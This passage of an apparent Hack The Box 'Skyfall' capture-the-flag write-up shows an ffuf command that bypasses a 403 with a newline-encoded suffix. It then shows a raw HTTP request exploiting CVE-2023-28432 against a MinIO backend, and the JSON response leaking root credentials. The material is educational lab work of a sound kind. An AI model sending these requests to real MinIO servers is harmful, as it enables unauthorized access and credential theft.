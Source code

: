 ```sh
$ ffuf -u http://demo.skyfall.htb/metricsFUZZ -request req -w /usr/share/wordlists/seclists/Fuzzing/403/403.txt

%0a                     [Status: 200, Size: 44864, Words: 4191, Lines: 9, Duration: 98ms]
:: Progress: [74/74] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

# MinIO

So now we can visit http://demo.skyfall.htb/metrics%0a, it lists off configuration details and some other MinIO nodes available.
Most noteably a version number (`2023-03-13T19:46:17z`) and an api url: [http://prd23-s3-backend.skyfall.htb/minio/v2/metrics/cluster](http://prd23-s3-backend.skyfall.htb/minio/v2/metrics/cluster)
![](/images/htb/skyfall/minioMetrics.png)

#

With my original testing I visited the "URL Fetch" page, I wasn't able to get it to fetch any local files however we can use this input to interact with the MinIO nodes.. but there's no data leakage.

#

After reading the docs and looking online, we can find a `CVE-2023-28432` POC, if you post to `/minio/bootstrap/v1/verify` with empty data it'll respond with some credentials.

- `MINIO_ROOT_USER`: 5GrE1B2YGGyZzNHZaIww
- `MINIO_ROOT_PASSWORD`: GkpjkmiVmpFuL2d3oRx0

```sh
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: prd23-s3-backend.skyfall.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
```

```javascript
{
  "MinioEnv": {
    "MINIO_ACCESS_KEY_FILE": "access_key",
    "MINIO_BROWSER": "off",
    "MINIO_CONFIG_ENV_FILE": "config.env",
    "MINIO_KMS_SECRET_KEY_FILE": "kms_master_key",
    "MINIO_PROMETHEUS_AUTH_TYPE": "public",
    "MINIO_ROOT_PASSWORD": "GkpjkmiVmpFuL2d3oRx0",
    "MINIO_ROOT_PASSWORD_FILE": "secret_key",
    "MINIO_ROOT_USER": "5GrE1B2YGGyZzNHZaIww",
    "MINIO_ROOT_USER_FILE": "access_key",
    "MINIO_SECRET_KEY_FILE": "secret_key",
    "MINIO_UPDATE": "off",
    "MINIO_UPDATE_MINISIGN_PUBKEY": "RWTx5Zr1tiHQLwG9keckT0c45M3AGeHD6IvimQHpyRywVWGbP1aVSGav"
  }
}
```
